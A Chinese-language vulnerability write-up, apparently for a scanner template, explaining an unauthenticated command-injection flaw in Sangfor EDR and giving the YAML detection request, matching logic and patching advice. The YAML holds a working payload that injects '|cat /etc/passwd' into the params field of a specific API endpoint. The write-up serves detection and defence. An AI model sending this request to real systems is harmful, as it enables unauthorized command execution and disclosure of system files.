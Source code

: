 ### 深信服 EDR 远程命令执行漏洞

**模板文件**：`sangfor-edr-rce.yaml`

#### 漏洞简介

深信服 EDR（终端检测与响应）3.2.17R1/3.2.21 存在远程命令执行漏洞。攻击者无需认证即可通过特定接口传入恶意参数，远程执行任意系统命令，获取服务器敏感信息或控制系统。

#### 漏洞原理

该漏洞源于接口 `/api/edr/sangforinter/v2/cssp/slog_client` 对参数未做有效校验，攻击者可通过构造特殊的 POST 请求，将命令注入到 `params` 字段，服务端直接拼接并执行，导致命令执行。

#### 检测逻辑（YAML内容解析）

```yaml
id: sangfor-edr-rce

http:
  - method: POST
    path:
      - "{{BaseURL}}/api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: |
      {"params":"w=123\"'1234123'\"|cat /etc/passwd"}
    matchers-condition: and
    matchers:
      - type: regex
        part: body
        regex:
          - "root:.*:0:0:"
      - type: status
        status:
          - 200
```

- 发送包含命令注入 payload 的 POST 请求到目标接口。
- 若响应体中出现 `/etc/passwd` 文件内容（如 `root:.*:0:0:`），且状态码为 200，则判定存在命令执行漏洞。

#### 防护建议

- 升级深信服 EDR 至官方修复版本。
- 对接口参数进行严格校验，禁止拼接和执行外部命令。
- 加强接口权限控制，避免未授权访问敏感接口。

---